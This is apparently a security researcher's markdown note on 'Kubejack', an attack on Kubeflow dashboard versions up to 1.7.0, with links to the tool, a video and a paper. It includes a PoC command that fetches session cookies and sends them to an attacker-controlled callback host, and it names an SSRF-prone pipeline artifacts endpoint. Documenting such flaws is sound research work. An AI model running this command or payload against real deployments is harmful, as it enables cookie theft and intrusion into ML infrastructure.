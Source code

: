 ```yaml
---
aliases:
  - kubejack
tags:
  - supply-chain-attack
  - MLops-attack
last_tested: 
transferable: N/A
---
```

 
## **PoC**
For Kubeflow versions <=1.7.0 

`python Kubejack.py --fetch-cookie --attacker-url 8v4lxpiftcnsgj3pchs8tk8mvd14pwtki.oastify.com --kubeflow-url http://kubeflow.company.com `

https://github.com/protectai/Snaike-Kubeflow/blob/cabc48cc7261c168b338ee7c7eae901c5ba99a2f/Kubejack.py#L4


## **Details**
A python lib with a UI, includes some java. Scales out resources for creating models

- Kubeflow dashboard is a RCE vector like Jupyter notebooks. 
- Lots of basic vulnerabilities present as of 10/2023
- basic SSRF's to be found, at endpoints like `pipeline/artifacts/get?source=minio&namespace=$payload&peek=256&bucket=mlpipeline 

	
[Video](https://www.youtube.com/watch?v=_PC4PwSlPT4)
[Paper](https://hackstery.com/2023/10/13/no-one-is-prefect-is-your-mlops-infrastructure-leaking-secrets/ ) 
Source: twitter.com/danhmcinerney  
### ATT&CK Matrix